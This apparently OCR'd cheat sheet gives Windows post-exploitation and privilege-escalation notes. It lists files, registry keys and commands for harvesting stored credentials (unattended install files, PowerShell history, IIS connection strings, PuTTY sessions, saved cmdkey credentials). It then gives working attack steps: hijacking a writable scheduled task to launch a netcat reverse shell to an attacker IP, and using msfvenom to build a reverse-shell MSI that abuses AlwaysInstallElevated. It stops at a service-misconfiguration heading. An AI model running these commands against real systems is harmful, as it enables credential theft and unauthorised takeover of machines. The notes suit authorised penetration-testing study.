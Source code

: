 For advanced windows exploitation
https://github.com/yeyintminthuhtut/Awesome-Advanced-Windows-Exploitation-References

For post exploitation (Privilege Escalation)
WinPrivEsc

Credential Harvesting
Unattended Windows Installation for Credentials
```
C:\Unattended.xml
C:\Windows\Panther\Unattended.xml
C:\Windows\Panther\Unattended\Unattended.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```
Powershell History
```
cmd.exe
%userprofile%\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt
```
Saved Windows Credentials
```
cmdkey /list
runas /savecred /user:admin cmd.exe
```
IIS Config
```
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
<command> | findstr connectionString
```
Retrieve Credentials from PuTTY
```
reg query
HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ 
/f “Proxy” /s 
look for softwares that stores passwords, including browsers, email clients, FTP clients, VNC software etc.
```

Scheduled tasks
```
schtasks /query /tn <taskname> /fo <format-type> /v
check for task permissions
icacls <path\to\task>
check for (F) full permissions on the BUILTIN\Users level
echo C:\Path\to\netcat -e cmd.exe <attacker-ip> <port> > <path\to\task>

set up listener on attacking machine
nc -nvlp <port>
schtasks /run /tn <taskname>

#always install elevated
//using msi windows installer files for priv esc
//check registry for:
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
//if both are set, then craft a payload
msfvenom -p windows /x64/shell_reverse_tcp LHOST=<attacking-ip> LPORT=<local-port> -f msi -o malicious.msi
//run the installer using:
msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```
Abusing Service Misconfiguration
```
Service Control Manager (SCM)
```